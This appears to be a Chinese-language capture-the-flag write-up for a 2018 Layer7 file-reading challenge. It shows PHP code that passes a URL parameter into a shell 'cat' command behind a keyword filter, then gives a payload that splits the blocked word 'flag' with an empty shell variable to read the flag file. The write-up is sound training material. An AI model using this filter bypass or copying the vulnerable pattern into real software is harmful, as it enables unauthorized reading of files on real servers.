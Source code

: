 #### 题目描述

```
This service provides read the file.
https://cat.canhack.me/

This challenge was published in the Layer7 CTF in 2018.
```

#### WriteUp

点进去发现有

```html
<b>Usage</b>: Please enter the parameter like as in <a href="/?file=test.txt">this</a>.
```

跟进得到`test.txt`的内容

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyumwka7dqj20yy09cmy3.jpg)

猜测为文件包含，尝试直接读取`flag`被`waf`，直接读取`https://cat.canhack.me/?file=index.php`

```php
<?php
	error_reporting(0);

	require __DIR__.'/flag-f72a161d445915d2bdcdc820c4143353.php';

	if(isset($_GET['file'])){

		if(preg_match('/flag|\'|\"|`|\\\\|;|\(|\)|\*|\?|\.\.|\//i', $_GET['file'])){
			die('no hack');
		}

		system('cat "'.$_GET['file'].'"');

	}else{
		echo '<b>Usage</b>: Please enter the parameter like as in <a href="/?file=test.txt">this</a>.';
	}

```

还剩下`{}`、`<>`、`[]`、`+-=`、`^`、`$`、`@`、`!`、`&`，是个关键字绕过，有`$`，我们很快可以联想到可以用`$n`这种方式绕过，最终 payload

```
https://cat.canhack.me/?file=fl$1ag-f72a161d445915d2bdcdc820c4143353.php
```





##	参考：

[Internal Variables](https://www.tldp.org/LDP/abs/html/internalvariables.html)
